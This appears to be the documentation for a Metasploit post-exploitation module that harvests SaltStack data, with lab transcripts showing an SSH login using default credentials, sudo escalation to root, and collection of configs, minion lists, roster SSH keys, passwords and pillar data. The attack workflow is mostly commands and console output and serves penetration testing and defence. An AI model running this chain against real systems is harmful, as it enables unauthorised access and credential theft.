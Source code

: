 ## Vulnerable Application

This module gathers data from salt stack minions and masters.

Data gathered from minions:

1. salt minion config file

Data gathered from masters:

1. minion list (denied, pre, rejected, accepted)
1. minion hostname/ip/os (depending on module settings)
1. SLS
1. roster, any SSH keys are retrieved and saved to creds, SSH passwords printed
1. minion config files
1. pillar data

## Verification Steps

1. Install salt and configure it
1. Start msfconsole
1. Get a session with permissions required (root typically)
1. Do: `use post/multi/gather/saltstack`
1. Do: `set session #`
1. Do: `run`
1. You should get all the salt stack info

## Options

### GETHOSTNAME

Gather hostname from the minions. Defaults to `true`

### GETIP

Gather IP from the minions. Defaults to `true`

### GETOS

Gather OS from the minions. Defaults to `true`

## MINIONS

Which minions to gather info from. Defaults to `*` (all)

## Scenarios

### Minion 3002.2 on Ubuntu 20.04

#### Setup

```
[*] Processing salt.rb for ERB directives.
resource (salt.rb)> use auxiliary/scanner/ssh/ssh_login
resource (salt.rb)> set username salt
username => salt
resource (salt.rb)> set password salt
password => salt
resource (salt.rb)> set rhosts 3.3.3.3
rhosts => 3.3.3.3
resource (salt.rb)> run
[+] 3.3.3.3:22 - Success: 'salt:salt' 'uid=1000(salt) gid=1000(salt) groups=1000(salt),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd) Linux salt-minion 5.4.0-58-generic #64-Ubuntu SMP Wed Dec 9 08:16:25 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (1.1.1.1:34863 -> 3.3.3.3:22) at 2021-04-10 12:50:12 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (salt.rb)> use post/multi/manage/sudo
resource (salt.rb)> set session 1
session => 1
resource (salt.rb)> set password salt
password => salt
resource (salt.rb)> run
[*] SUDO: Attempting to upgrade to UID 0 via sudo
[*] Sudoing with password `salt'.
[+] SUDO: Root shell secured.
[*] Post module execution completed
```

#### Module Run

```
resource (salt.rb)> use post/multi/gather/saltstack
resource (salt.rb)> set session 1
session => 1
resource (salt.rb)> set verbose true
verbose => true
resource (salt.rb)> run
[!] SESSION may not be compatible with this module.
[*] Looking for salt minion config files
[+] Minion master: 4.4.4.4
[+] 3.3.3.3:22 - minion file successfully retrieved and saved on /root/.msf4/loot/20210410125036_default_3.3.3.3_saltstack_minion_561296.bin
[*] Post module execution completed
msf6 post(multi/gather/saltstack) > cat /root/.msf4/loot/20210410125036_default_3.3.3.3_saltstack_minion_561296.bin
[*] exec: cat /root/.msf4/loot/20210410125036_default_3.3.3.3_saltstack_minion_561296.bin

---
master: 4.4.4.4
```

### Master 3002.2 on Ubuntu 20.04

#### Setup

```
[*] Processing salt.rb for ERB directives.
resource (salt.rb)> use auxiliary/scanner/ssh/ssh_login
resource (salt.rb)> set username salt
username => salt
resource (salt.rb)> set password salt
password => salt
resource (salt.rb)> set rhosts 4.4.4.4
rhosts => 4.4.4.4
resource (salt.rb)> run
[+] 4.4.4.4:22 - Success: 'salt:salt' 'uid=1000(salt) gid=1000(salt) groups=1000(salt),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd) Linux salt-master 5.4.0-58-generic #64-Ubuntu SMP Wed Dec 9 08:16:25 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (1.1.1.1:35097 -> 4.4.4.4:22) at 2021-04-10 12:11:29 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (salt.rb)> use post/multi/manage/sudo
resource (salt.rb)> set session 1
session => 1
resource (salt.rb)> set password salt
password => salt
resource (salt.rb)> run
[*] SUDO: Attempting to upgrade to UID 0 via sudo
[*] Sudoing with password `salt'.
[+] SUDO: Root shell secured.
[*] Post module execution completed
```

#### Module Run

```
resource (salt.rb)> use post/multi/gather/saltstack
resource (salt.rb)> set session 1
session => 1
resource (salt.rb)> set verbose true
verbose => true
resource (salt.rb)> run
[!] SESSION may not be compatible with this module.
[*] Attempting to list minions
[*] minions:
- salt-minion
minions_denied: []
minions_pre: []
minions_rejected: []
[+] 4.4.4.4:22 - minion file successfully retrieved and saved to /root/.msf4/loot/20210410130859_default_4.4.4.4_saltstack_minion_619372.bin
[+] Minions List
============

 Status    Minion Name
 ------    -----------
 Accepted  salt-minion

[*] Gathering data from minions
[*] salt-minion:
  network.get_hostname: salt-minion
  network.interfaces:
    ens160:
      hwaddr: aa:aa:aa:aa:aa:aa
      inet:
      - address: 3.3.3.3
        broadcast: 9.9.9.255
        label: ens160
        netmask: 255.255.255.0
      inet6:
      - address: fe80::20c:29ff:aa11:aaa
        prefixlen: '64'
        scope: link
      up: true
    lo:
      hwaddr: 00:00:00:00:00:00
      inet:
      - address: 127.0.0.1
        broadcast: null
        label: lo
        netmask: 255.0.0.0
      inet6:
      - address: ::1
        prefixlen: '128'
        scope: host
      up: true
  status.version: 'Linux version 5.4.0-58-generic (buildd@lcy01-amd64-004) (gcc version
    9.3.0 (Ubuntu 9.3.0-17ubuntu1~20.04)) #64-Ubuntu SMP Wed Dec 9 08:16:25 UTC 2020'
[+] 4.4.4.4:22 - minion data gathering successfully retrieved and saved to /root/.msf4/loot/20210410130901_default_4.4.4.4_saltstack_minion_998932.bin
[+] Found minion: salt-minion (3.3.3.3) - Linux version 5.4.0-58-generic (buildd@lcy01-amd64-004) (gcc version 9.3.0 (Ubuntu 9.3.0-17ubuntu1~20.04)) #64-Ubuntu SMP Wed Dec 9 08:16:25 UTC 2020
[*] Showing SLS
[+] 4.4.4.4:22 - SLS output successfully retrieved and saved to /root/.msf4/loot/20210410130904_default_4.4.4.4_saltstack_sls_073612.txt
[*] Loading roster
[+] Found SSH minion: web1 (192.168.42.1)
[+] Found SSH minion: web2 (192.168.42.2)
[+]   SSH key /tmp/id_rsa password hello
[-]   Unable to find salt-ssh priv key /tmp/id_rsa
[+] Found SSH minion: web3 (192.168.42.3)
[-]   Unable to find salt-ssh priv key /tmp/id_rsa2
[*] Looking for salt minion config files
[+] 4.4.4.4:22 - roster file successfully retrieved and saved to /root/.msf4/loot/20210410130908_default_4.4.4.4_saltstack_roster_162455.bin
[*] Gathering pillar data
[*] salt-minion:
  info: some data
[+] 4.4.4.4:22 - pillar data gathering successfully retrieved and saved to /root/.msf4/loot/20210410130910_default_4.4.4.4_saltstack_pillar_773785.bin
{"salt-minion"=>{"info"=>"some data"}}
[*] Post module execution completed
```
